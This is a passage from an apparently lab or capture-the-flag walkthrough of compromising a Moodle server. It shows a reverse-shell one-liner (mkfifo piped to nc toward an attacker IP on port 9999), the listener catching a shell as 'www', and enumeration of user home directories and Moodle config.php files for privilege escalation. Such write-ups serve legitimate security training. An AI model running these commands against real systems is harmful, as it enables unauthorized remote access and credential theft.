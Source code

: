 ```
[+] Uploading malicious .zip file: ✓
[+] Executing rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.19.9 9999 >/tmp/f: ✓
[+] Keep breaking ev3rYthiNg!!                                                                                   

```

When we check the netcat listener, we should see that we now have a reverse shell on the target as the "www" user:

```
└─$ nc -nvlp 9999
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.10.10.234.
Ncat: Connection from 10.10.10.234:15834.
sh: can't access tty; job control turned off
$ id
uid=80(www) gid=80(www) groups=80(www)
$ 
```

Let's check which users we can target on the box:

```
$ ls -la /usr/home
total 26
drwxr-xr-x   4 root   wheel   4 Mar 16 06:33 .
drwxr-xr-x  16 root   wheel  16 Feb 26  2021 ..
drwx------   2 jamie  jamie  11 Feb 28  2021 jamie
drwx------   5 steve  steve  14 Mar 17 14:05 steve
$ 
```

There are two users, we'll make a note of these as we may need to privesc to one of them before we can try and privesc to root.

## Privilege Escalation

### Enumeration as "www"

Let's do a google search to see if we can find details for the configuration file for the local moodle installation:

{% embed url="https://docs.moodle.org/39/en/Configuration_file" %}

The configuration file is called config.php, and uses variables that start with the $CFG-> designation. Let's do a search for this config file from within the apache directory:

```
$ pwd
/usr/local/www/apache24/data/moodle/blocks/rce/lang/en
$ cd /usr/local/www/apache24
$ find . -name config.php 2>/dev/null
./moodledata/muc/config.php
./data/moodle/cache/classes/config.php
./data/moodle/mod/quiz/accessrule/seb/config.php
./data/moodle/mod/chat/gui_ajax/theme/course_theme/config.php
./data/moodle/mod/chat/gui_ajax/theme/bubble/config.php
./data/moodle/mod/chat/gui_ajax/theme/compact/config.php
./data/moodle/theme/classic/config.php
./data/moodle/theme/boost/config.php
./data/moodle/config.php
./data/moodle/lib/editor/tinymce/plugins/spellchecker/config.php
$ 
```
